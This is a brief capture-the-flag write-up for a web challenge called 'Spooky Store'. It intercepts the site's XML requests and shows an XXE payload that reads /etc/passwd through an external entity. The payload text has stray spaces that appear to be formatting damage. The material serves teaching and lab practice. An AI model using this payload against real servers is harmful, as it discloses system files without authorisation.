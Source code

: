 **Spooky Store [web]**

-- It's a simple webpage with 3 buttons, you got this :)
![enter image description here](https://lh3.googleusercontent.com/RW2Afg0HPHpL2N251IR9uLn0K9bCVz2GEtG2rls-Sy6sVrGA37Yu3Sze3vzuYue7tyrFSMrQcYGQ46A0YCc91fNCHYadJqokvAWQd0tq_dj4JRQJOjb8jolQjDR2VGjPLvZQJTG1LG2YdTVnvnax01Y-g8TabqfyFu85UWn2ZvHJcEFaOIgHuPb2_FNId8FdYYF6ZzKqiuXVF7gaZaihVpF7HryIbDuoUAeDUtyrBV1OYDNVSd0JURHQnxzNZG_syrHYDm9KX91zDd2izTDa7nXZd31GuAi78pdg1LBqtyh6PtHsvtPTQduZskTV9AkHii8CdKR2q2F6YUecC4bUVA8dwBerZfDpa_2mA2US6KNj2sLzzTUU8ajRDyWL5Nh_yRsajhjmHFEPm3I8nrw58DWWP3Houq29TJHrD5z4PNJjdPgy1lbvDfnh66suDhVZjz42byYNmvhWsqDmRrf3ClOtYA_2Mdtg6-9-Zgq28YBQS1uU1z0wk905lOtdCpq1SjLecselTiOfdkXu01Hj-gC0igQX7G3757YFt-Wd4LlYuWv5XL2pEFWPHKmCVQqXAO0YampyHfGduerXFUNw4vREHnkUdy9rpYloExM0A6So9uzwcrKjFMCKUCp7rfY0m8p6BaE-V-Ke_kwMdZ53GzQI2bTQpn8kxgJCy0vFBwatR2xC7WjX=w1341-h545-no)

there are three buttons and if you press on them , you will get some locations coordinate values are output so we need to check it with burp suite we see the request in XML form , first thing that comes to mind is if is vulnerable to **XXE attacks** 


![enter image description here](https://lh3.googleusercontent.com/-3uxlORgZ2Z579_T2Yn-M3DlvThkkBMIMVZESoaXP9CQlf9FGSSoMKm-7YxsORjem5d4hdlOIPnZp9IAwaMk2VBwKOIiqr4PMaSOD6cdPlm-EGOIX67OwHkgHK3dM-DT6OVnvW-N626wQRmqK6FZAQkXtDWeYDfV_HiVBoBjtafLM0w56nmU_jbebHhtJpA1U17sGCxsVvXPHIZzqyRiFrEIbdCuWXpwDUED6O6EydlNiDlM-rgewcqBgYepzIP_vpFCWarOTj-kLRAP87is0n28smOlko3BcLSZAIBxnc7zcDXl_gceUGjNGvSG7TUNpnJM6zcrEOtpHEFGuR1c74Ynsuk4y8GkMuYFQCsv6kWX2xw2nRLf6k_coas3P41sG78XCcsa0iTs1hLPUMk3DDV566-S3b6T4kdt3Pt_JtLzt07mx5Xwb0RP08OZI8f7BufJXpw3H5Jemo_g6eKfN15jHLaVOsMVl22gTkdjakmmA8qMzgLxGSdZwzh1WC7M83aJJVSg8_oqLOFPQ9t5sdLQR9aKrejmMeQNg0ZaTBcetl5KUY07Wm0Hlkk3nAUEI_qnLAMhLDIwulx3MvVT-siu5mSAPzqBI1G4wncgn94j0a5daYpfOEisKuBLzVojVMCgnhED_OL6aRNTTUi5oqkw460D37df1lemmGbJqDcSRdoLzgX4=w1282-h578-no)
    
    
    <? xml version = "1.0" encoding = "UTF-8"?> <locationCheck><productId>1</productId> </locationCheck>


### **Disclosing /etc/passwd **



![enter image description here](https://lh3.googleusercontent.com/5YPwmnf2MMxEwm9kgqyQPJSm6Des_Ys8qn-uyQQiTl3rQFiC9kuMvDLdQT449rOZcP7kQrZexRTIRafC6H4QXLaI1VbCv-KiAqd_lajZZG5m4SF7qa9Efn7mB7luXqk2-o0XXUcSAUVNeJuiNsOfFFvWsfXn0Cm1SyBN_NPyw3O4PVxaCYl75vioOiR-_WjvPuHJQ1IMOVa82Ji-WKj4vpaZi1w2mdsmJtHlswnK06934CG0ah81o7umCCE7vdiyFkUK82zIIdVoaTLwtwUFzSBKKr0RSSmM9p8ev3FS31s47Jw4nLhXOrH7JiGzilHDIO7nPf7LuM-CbnNQoXymmaiAP0GlNEKkkn9RmR7nQGvf_fiC56OBbXCJK0owM4UWkhFNcJ_-wkbcK5TEGE_f8WIbwwKC3E9mlYLz3Qv-3OnGsWX9DX1ujV1HUrqz8OG35amVAXH9IKC6MeIY_GZV79a81VTOHNgw38eufVdRymncABK37stIRB9bb-pglUD_MisHJ11VbVeIMrrsqHy4RKetMaUBNKM0kMX_fB6VfBR4QKBK_IVJ7nLZSUbJrP7T2uQ3DN1FgQAmSJkXlC-G-J8VsDVSZZLOhRR9sz2iCRNZ6wKpo38EbPY355phD45qxZWrpMWAzafs68t1PFvy0p15vwR1NXB_owVLvfEjHuSw2iIrSTFl=w1275-h601-no)


    <? xml version = "1.0" encoding = "UTF-8"?> <! DOCTYPE netspi [<! ENTITY xxe SYSTEM "file: /// etc / passwd">]> <locationCheck><productId>&xxe;</productId> </locationCheck>


    
![enter image description here](https://lh3.googleusercontent.com/ZXe56OxkQKHbMBZu31O4NZwhlFchP7FNaa55AypzgSnnmw5eOmlwXD6uXeh-IjPGNk33hDcoK88lXQ9VAPW8J3Jaw6KDlubkMksAxLwz_w0BNwBsSQ_bio3_e7EJWmPgXHWVGNUqUB4fb_0yx9jCtlSNeX2GKM59itZEqEwgm9U6CqKy6ekpvOgg-xunBLW1ZivYh-lT979DAf42oRV97sjMmq-kPo-TS4DANNo4PIcjzGoNd5hEhH0XHSSMdMMCSO5wETQ2e-VxD5WGq-gVbdGN-GBo9w223AMPlNVftygHmb7DVnjSG-Watyg2PksGtwhXZiMUQHFQYBqwfMFAQhcdsAnU876amqN3MSLFMHRepyi_c73sVZpBBZjBluCcerjy6vegyZ5-Aj93_Dq_DOzsqtGuLxl4txRkQ1km5tN7wFKb5hg8AZkVgaPWvqmbpZm5QO5fIOMCoGU-cy_zN3P9ur9GwwUqx1nHAmOd67gN71vt5o0Ebua3lgtWwfuZYNhMOffbF4I81rIeTSHVzpu1FSEP022nTs_IYaxNaAUgVOSj6F3c75yup0N5vfyHvdCHyHSc4tKUyXoiDAb3hhdH5bzx5_rYvpfRyYjzOnnZkAaDXlgFq8DbFGDbnpi7jEiTUKxwu6wgJ3C0K1Kyq6xUUTY83ZH-3e2GeDdolQokDsGkQvY2=w608-h360-no)
